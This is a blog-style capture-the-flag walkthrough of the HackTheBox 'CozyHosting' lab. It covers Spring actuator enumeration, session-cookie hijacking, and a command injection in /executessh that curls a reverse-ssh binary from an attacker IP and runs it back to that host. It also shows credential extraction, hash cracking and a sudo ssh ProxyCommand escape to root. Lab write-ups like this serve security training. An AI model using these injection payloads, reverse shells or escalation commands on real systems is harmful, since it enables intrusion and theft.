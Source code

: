 ```yaml
---
title: CozyHosting
date: 2023-09-19
categories: [HackThebox, Easy-HTB]
tags: [cms, gtfo-bins, linux, spring]     # TAG names should always be lowercase
---
```



# Recon

```bash
curl -s 10.10.11.230 -v 2>&1 | grep "Location" | awk '{print $3}'
http://cozyhosting.htb

```

we got `cozyhosting.htb` as the host, now lets edit out `/etc/hosts` to resolve
the host

`echo "10.10.11.230 cozyhosting.htb" >> /etc/hosts`

Now we can navigate to `http://cozyhosting.htb` in our browser

```bash
❯ gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]

```

After spending some time trying to login i kinda feel bored, so time to enum
more

![img](/assets/img/hackthebox/cozyhosting/error_label.png)

Aight nvm, we got the whitelabel error aka spring hosting this. our next move will be looking for /actuator and other spring endpoints

```bash
❯ gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/sessions    (Status: 200) [Size: 48]
Progress: 112 / 113 (99.12%)
===============================================================
Finished
===============================================================
```

contents of /actuator

```json
{
  "_links": {
    "self": {
      "href": "http://localhost:8080/actuator",
      "templated": false
    },
    "sessions": {
      "href": "http://localhost:8080/actuator/sessions",
      "templated": false
    },
    "beans": {
      "href": "http://localhost:8080/actuator/beans",
      "templated": false
    },
    "health": {
      "href": "http://localhost:8080/actuator/health",
      "templated": false
    },
    "health-path": {
      "href": "http://localhost:8080/actuator/health/{*path}",
      "templated": true
    },
    "env": {
      "href": "http://localhost:8080/actuator/env",
      "templated": false
    },
    "env-toMatch": {
      "href": "http://localhost:8080/actuator/env/{toMatch}",
      "templated": true
    },
    "mappings": {
      "href": "http://localhost:8080/actuator/mappings",
      "templated": false
    }
  }
}
```



well, what can do with this is view /sessions to see the current logged in Users

```bash
curl http://cozyhosting.htb/actuator/sessions | jq . 
{
  "3D5353CA928B56E348E3968206F168C1": "kanderson",
  "DE841EDDDD2E6FE93B22033CA7EC0CB7": "UNAUTHORIZED"
}
```

Alright thats a very good news, we can our Unauthorized session, as well as the user kanderson session alongside JSESSIONID, Lets use burp to intercept the request and change the cookie to kanderson's. 

![img](/assets/img/hackthebox/cozyhosting/burp_cookie.png)


# FootHold
And guess what? it works. aight, so thats nice now what next
![img](/assets/img/hackthebox/cozyhosting/foothold.png)

![img](/assets/img/hackthebox/cozyhosting/curl_command.png)

Playing around reveals another endpoint /executessh. since i have control over the input send to the endpoint, from the endpoint name i make a guess there might a command injection. So i use sleep and monitor the response time, and it certain work. what what left is crafting a shell


```bash
# first off get the binary from this github repo: Fahrj/reverse-ssh

# download reverse-ssh
curl -X POST "http://cozyhosting.htb/executessh" -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: JSESSIONID=16C0AD81790D8BB7FC2BECE1618F1B32" -d 'host=google&username=;curl${IFS}http://10.10.14.39:8000/rev${IFS}-o${IFS}/tmp/revshell;' -vv

# mark reverse-ssh as executable
curl -X POST "http://cozyhosting.htb/executessh" -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: JSESSIONID=16C0AD81790D8BB7FC2BECE1618F1B32" -d 'host=google&username=;chmod${IFS}777${IFS}/tmp/revshell;' -vv

# run reverse-ssh on target
curl -X POST "http://cozyhosting.htb/executessh" -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: JSESSIONID=16C0AD81790D8BB7FC2BECE1618F1B32" -d 'host=google&username=;/tmp/revshell${IFS}-pa${IFS}9001${IFS}10.10.14.39;' -vv

# catch the shell locally
./rev -l -v -p 9001

# ssh to the victim machine
ssh -p 8888 127.0.0.1

#password "letmeinbrudipls"
```


# User Flag

After looking around, nothing really seems to be that much interesting. all services running we already know them. but hold a sec, there's postgres running maybe we can the josh login creds. i downloaded the project and run grep on it. lucky i found the password and username `postgres:Vg&nvzAQ7XxR`

Now lets check postgres, hopefully we find something worthy of our time.
![img](/assets/img/hackthebox/cozyhosting/postgres.png)

it takes around 4m for john to crack the user password `josh:manchesterunited`

![img](/assets/img/hackthebox/cozyhosting/sudol.png)

# Root Flag

alright josh can run ssh as root, our next destination is gtfo bins
`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
![img](/assets/img/hackthebox/cozyhosting/root.png)

and finally root the box. 
Thanks for reading and i hope this helps :)